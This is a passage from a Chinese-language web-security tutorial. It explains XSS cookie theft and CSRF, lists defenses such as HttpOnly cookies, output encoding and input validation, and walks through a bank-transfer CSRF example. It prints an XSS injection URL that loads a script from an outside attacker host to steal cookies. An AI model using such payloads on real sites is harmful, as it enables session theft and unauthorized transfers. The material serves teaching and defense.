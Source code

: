 ​        在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段Javascript程序，即可访问到该Web应用所处域名下的Cookie信息。然后这些信息就会发送至攻击者的Web网站，记录在他的登陆日志中。这样，攻击者就可以窃取到用户的Cookie信息了。

```html
http://example.jp/login?ID="><script src='http://hackr.jp/xss.js'></script>"
```

​        **防御方案：**

- 设置Cookie的HttpOnly属性，它使javascript脚本无法获得Cookie

``` makefile
Set-Cookie: name=value; HttpOnly
```

​        设置后，通常还可以从Web页面对Cookie进行读取操作。但使用Javascript的document.cookie就无法读取附加HttpOnly属性后的Cookie内容了。

- 首部字段X-XSS-Protection

``` makefile
X-XSS-Protection: 1
```

​        该首部字段是HTTP响应首部，它是针对跨站脚本攻击的一种对策，用于控制浏览器XSS的防护机制的开关。0：将XSS过滤设置成无效状态。1：将XSS过滤设置成有效状态。 

- 过滤或移除特殊的HTML标签，如`<script>` ,`<iframe>`，`<`、`>`、`"`等用实体&lt、&gt、&quot替代。
- 对页面提交的内容进行HTML Encode转义处理

​       用户提交的数据进行HTML编码，将相应的符号转换为实体名称再进行下一步处理。

- URL上提交的内容做URL Encode转义

- 过滤JavaScript事件的标签。例如"onclick="，"onfocus"等等。
- 表单数据规定值的类型，例如年龄只能为int，name只能为字母数字下划线组合
- 注册登录入口做好人机识别(各种验证码)
- 服务器只开放必要端口：如80、443、22

### 二、跨站点请求伪造（XSRF）

​        跨站点请求伪造攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新。

​        跨站点请求伪造可能造成如下影响：

- **利用已通过认证的用户权限更新设定信息等**
- **利用已通过认证的用户权限购买商品、虚拟货币转账等**
- **利用已通过认证的用户权限在留言板上发表评论**

​        跨站点请求伪造的攻击案例

#####          1. 银行转账

​        受害者 Bob 在银行有一笔存款，通过对银行的网站发送请求 <http://bank.example/withdraw?account=bob&amount=1000000&for=bob2> 可以使 Bob 把 1000000 的存款转到 bob2 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，并且该 session 的用户 Bob 已经成功登陆。

​        黑客 Mallory 自己在该银行也有账户，他知道上文中的 URL 可以把钱进行转帐操作。Mallory 可以自己发送一个请求给银行：<http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory>。但是这个请求来自 Mallory 而非 Bob，他不能通过安全认证，因此该请求不会起作用。

​        这时，Mallory 想到使用 CSRF 的攻击方式，他先自己做一个网站，在网站中放入如下代码： src="<http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory>" ，并且通过广告等诱使 Bob 来访问他的网站。当 Bob 访问该网站时，上述 url 就会从 Bob 的浏览器发向银行，而这个请求会附带 Bob 浏览器中的 cookie 一起发向银行服务器。大多数情况下，该请求会失败，因为他要求 Bob 的认证信息。但是，如果 Bob 当时恰巧刚访问他的银行后不久，他的浏览器与银行网站之间的 session 尚未过期，浏览器的 cookie 之中含有 Bob 的认证信息。这时，悲剧发生了，这个 url 请求就会得到响应，钱将从 Bob 的账号转移到 Mallory 的账号，而 Bob 当时毫不知情。等以后 Bob 发现账户钱少了，即使他去银行查询日志，他也只能发现确实有一个来自于他本人的合法请求转移了资金，没有任何被攻击的痕迹。而 Mallory 则可以拿到钱后逍遥法外。 
